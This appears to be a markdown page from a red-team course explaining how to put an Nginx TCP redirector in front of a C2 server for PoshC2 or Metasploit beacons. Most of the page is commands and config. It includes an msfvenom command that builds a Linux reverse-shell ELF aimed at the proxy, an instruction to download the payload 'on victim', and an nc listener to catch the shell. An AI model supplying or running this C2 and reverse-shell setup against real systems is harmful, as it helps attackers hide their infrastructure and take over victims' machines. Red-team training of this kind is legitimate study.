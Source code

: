 # Setting up Nginx for TCP proxy 

1. First off this shit is stupid, nginx only knows how to deal with HTTP traffig and beacon traffic can sometimes be encrypted by defualt making it hard for Nginx to deal with. There for we are going to have to not only set up our `proxy_reverse` but also configure TCP on the server if we want COMs to work all the way with out the use of ssl certs
2. To start lests install Nginx
    ```bash
    sudo apt install nginx 
    ```
3. Now lets modify our config file which might no exist 
    ```bash 
    sudo vim /etc/nginx/conf.d/lp_proxy.conf
    ```
4. Paste the follwing in `lp_proxy.conf`
    ```nginx
    server {
        listen 80;
        listen [::]:80;

        server_name <serverIP-OR-ServerDNSname>;

        location / {
            proxy_pass http://<parrot-c2-ip>;
        }
    }
    ```
4. Now lets add the TCP rules to allow us to handle the beacons
    ```bash
    sudo vim /etc/nginx/nginx.conf
    ```
5. Paste the following Bellow `http {...}` section
    ```nginx
    stream {
        log_format posh '$remote_addr [$time_local] '
        '$protocol $status $bytes_sent $bytes_received '
        '$session_time "$upstream_addr" '
        '"$upstream_bytes_sent" "$upstream_bytes_received" "$upstream_connect_time"';
    
        server {
            listen 8080;

            proxy_pass <Parrot-IP>:80;

            access_log /var/log/nginx/tcp_access.log posh;
            error_log /var/log/nginx/tcp_error.log;

        }

    }
    ```
6. Now lets reload Nginx with the new config files
    ```bash 
    sudo systemctl restart nginx.service
    ```
7. From here we can now create a msfvenom shell or poshc2 with the correct ports set in the TCP section in the example we have `8080` 
    ```bash
   msfvenom -p linux/x64/shell_reverse_tcp LHOST=<proxy-ip> LPORT=8080 -a x64 -f elf > yup.elf
    ```
    > **NOTE:** Follow the same setup if you are using Poshc2 set your bind port to 80/443, and in `payloadcomshost` set your `http://proxy-ip:<stream-listening-port>`
8. Host your payload however and download on victim 
9. Now if you are running msfvenom start you `nc` listener to catch your beacon.
    ```bash
    sudo nc -lnvp 80
    ```
10. tada you have a beacon shelley, fuck you.

## Important Nginx File Locations 
- `/var/www/html` – Website content as seen by visitors.
- `/etc/nginx` – Location of the main Nginx application files.
- `/etc/nginx/nginx.conf` – The main Nginx configuration file.
- `/etc/nginx/sites-available` – List of all websites configured through Nginx.
- `/etc/nginx/sites-enabled` – List of websites actively being served by Nginx.
- `/var/log/nginx/access.log` – Access logs tracking every request to your server.
- `/var/log/ngins/error.log` – A log of any errors generated in Nginx.

## [Return to course page](README.md)